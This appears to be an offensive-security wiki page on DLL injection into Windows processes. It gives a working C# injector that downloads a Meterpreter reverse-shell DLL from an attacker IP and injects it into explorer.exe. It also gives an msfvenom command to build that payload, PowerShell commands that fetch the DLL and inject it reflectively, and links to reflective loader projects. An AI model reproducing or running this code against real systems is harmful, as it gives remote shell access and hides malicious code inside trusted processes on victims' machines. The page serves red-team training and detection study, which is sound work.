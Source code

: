 ```yaml
---
description: Inject DLLs into remote process's virtual address space
---
```


# DLL Injectors




## Classic DLL Injection



### C\# Executable

A simple C# DLL injector to explain the basics:

1. Allocate space for the malicious DLL name in remote process's virtual address space.
2. Write the DLL name into the allocated space.
3. Locate the address of the [LoadLibraryA](https://docs.microsoft.com/en-us/windows/win32/api/libloaderapi/nf-libloaderapi-loadlibrarya) function in kernel32.dll with `GetModuleHandle` and `GetProcAddress`. Most Windows native DLLs are allocated at the same base address, so the obtained address of `LoadLibraryA` will be the same for the remote process.
4. Invoke `LoadLibraryA` function on the behalf of the remote thread supplying base `LoadLibraryA` address as the *4th* argument of `CreateRemoteThread` and the address of the DLL name to be loaded as the *5th* argument.

All this is needed because `LoadLibrary` functions cannot be invoked natively on a remote process.

{% code title="DLLInjector.cs" %}
```csharp
using System;
using System.Net;
using System.Linq;
using System.Diagnostics;
using System.Runtime.InteropServices;
using System.Text;

namespace DLLInjector
{
    class Program
    {
        [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
        static extern IntPtr OpenProcess(uint processAccess, bool bInheritHandle, int processId);

        [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
        static extern IntPtr VirtualAllocEx(IntPtr hProcess, IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);

        [DllImport("kernel32.dll")]
        static extern bool WriteProcessMemory(IntPtr hProcess, IntPtr lpBaseAddress, byte[] lpBuffer, Int32 nSize, out IntPtr lpNumberOfBytesWritten);

        [DllImport("kernel32.dll")]
        static extern IntPtr CreateRemoteThread(IntPtr hProcess, IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);

        [DllImport("kernel32", CharSet = CharSet.Ansi, ExactSpelling = true, SetLastError = true)]
        static extern IntPtr GetProcAddress(IntPtr hModule, string procName);

        [DllImport("kernel32.dll", CharSet = CharSet.Auto)]
        public static extern IntPtr GetModuleHandle(string lpModuleName);

        static void Main(string[] args)
        {
            // Download the malicious DLL
            String dirName = Environment.GetFolderPath(Environment.SpecialFolder.MyMusic);
            String dllName = dirName + "\\met.dll";
            WebClient wc = new WebClient();
            // msfvenom -p windows/x64/meterpreter/reverse_https LHOST=10.10.13.37 LPORT=443 EXITFUNC=thread -f dll -o met.dll
            wc.DownloadFile("http://10.10.13.37/met.dll", dllName);

            // Get remote process handle
            Process[] pList = Process.GetProcessesByName("explorer");
            int processId = pList.First().Id;
            IntPtr hProcess = OpenProcess(0x001F0FFF, false, processId);

            // Allocate space for the DLL name in remote process's virtual address space and write it
            IntPtr dllNameAddress = VirtualAllocEx(hProcess, IntPtr.Zero, 0x1000, 0x3000, 0x40);
            IntPtr outSize;
            WriteProcessMemory(hProcess, dllNameAddress, Encoding.Default.GetBytes(dllName), dllName.Length, out outSize);

            // Locate base address of the LoadLibraryA function in kernel32.dll (this address will be the same for the remote process)
            IntPtr loadLibraryAddress = GetProcAddress(GetModuleHandle("kernel32.dll"), "LoadLibraryA");

            // Invoke LoadLibraryA function in the remote process supplying starting address of the malicious DLL in its (process's) address space
            IntPtr hThread = CreateRemoteThread(hProcess, IntPtr.Zero, 0, loadLibraryAddress, dllNameAddress, 0, IntPtr.Zero);
        }
    }
}
```
{% endcode %}

{% hint style="warning" %}
According to [this](https://github.com/rapid7/metasploit-framework/blob/09fe84faed5fa055df54fdf858ebd0de750eb34f/data/templates/src/pe/dll/template.c) template that MSF is using to generate a DLL, there's another injection technique (Thread Execution Hijacking) [in the DLL code itself](https://github.com/rapid7/metasploit-framework/blob/09fe84faed5fa055df54fdf858ebd0de750eb34f/data/templates/src/pe/dll/template.c#L115) which is invoked upon `DLL_PROCESS_ATTACH` event. That causes the DLL not to be loaded in the target process memory, but it rather forces new shellcode to be executed by `rundll32.exe` and the malicios process (meterpreter shell, etc.) gets the PID of `rundll32.exe`. It may also result in hanging the parent's process (`explorer.exe` in terms of this example) and crashing it when the shell dies.
{% endhint %}




## Reflective DLL Injection (RDI)

* [https://github.com/stephenfewer/ReflectiveDLLInjection](https://github.com/stephenfewer/ReflectiveDLLInjection)
* [https://github.com/dismantl/ImprovedReflectiveDLLInjection](https://github.com/dismantl/ImprovedReflectiveDLLInjection)
* [https://github.com/Moriarty2016/NimRDI](https://github.com/Moriarty2016/NimRDI)
* [https://bruteratel.com/research/feature-update/2021/06/01/PE-Reflection-Long-Live-The-King/](https://bruteratel.com/research/feature-update/2021/06/01/PE-Reflection-Long-Live-The-King/)
* [https://github.com/Krypteria/AtlasLdr](https://github.com/Krypteria/AtlasLdr)
* [https://oldboy21.github.io/posts/2023/12/all-i-want-for-christmas-is-reflective-dll-injection/](https://oldboy21.github.io/posts/2023/12/all-i-want-for-christmas-is-reflective-dll-injection/)
* [https://oldboy21.github.io/posts/2024/02/reflective-dll-got-indirect-syscall-skills/](https://oldboy21.github.io/posts/2024/02/reflective-dll-got-indirect-syscall-skills/)
* [https://blog.malicious.group/writing-your-own-rdi-srdi-loader-using-c-and-asm/](https://blog.malicious.group/writing-your-own-rdi-srdi-loader-using-c-and-asm/)
* [https://github.com/BlackHat-Ashura/Reflective_DLL_Injection](https://github.com/BlackHat-Ashura/Reflective_DLL_Injection)



### Theory Basics

- [https://www.ired.team/offensive-security/code-injection-process-injection/reflective-dll-injection](https://www.ired.team/offensive-security/code-injection-process-injection/reflective-dll-injection)
- [https://www.ired.team/offensive-security/code-injection-process-injection/process-hollowing-and-pe-image-relocations#relocation](https://www.ired.team/offensive-security/code-injection-process-injection/process-hollowing-and-pe-image-relocations#relocation)
- [https://www.ired.team/miscellaneous-reversing-forensics/windows-kernel-internals/pe-file-header-parser-in-c++](https://www.ired.team/miscellaneous-reversing-forensics/windows-kernel-internals/pe-file-header-parser-in-c++)



### Custom LoadLibrary

- [https://www.riskinsight-wavestone.com/en/2024/10/loadlibrary-madness-dynamically-load-winhttp-dll/](https://www.riskinsight-wavestone.com/en/2024/10/loadlibrary-madness-dynamically-load-winhttp-dll/)
- [https://github.com/OtterHacker/Conferences/tree/main/Defcon32](https://github.com/OtterHacker/Conferences/tree/main/Defcon32)
- [https://injectexp.dev/b/LoadLibraryReloaded](https://injectexp.dev/b/LoadLibraryReloaded)



### Invoke-ReflectivePEInjection

* [https://github.com/S3cur3Th1sSh1t/Creds/blob/master/PowershellScripts/Invoke-ReflectivePEInjection.ps1](https://github.com/S3cur3Th1sSh1t/Creds/blob/master/PowershellScripts/Invoke-ReflectivePEInjection.ps1)

```
$ msfvenom -p windows/x64/meterpreter/reverse_https LHOST=10.10.13.37 LPORT=443 EXITFUNC=thread -f dll -o met.dll
PS > $bytes = (New-Object Net.WebClient).DownloadData("http://10.10.13.37/met.dll")
PS > Invoke-ReflectivePEInjection -PEBytes $bytes -ProcId (Get-Process explorer).Id
```
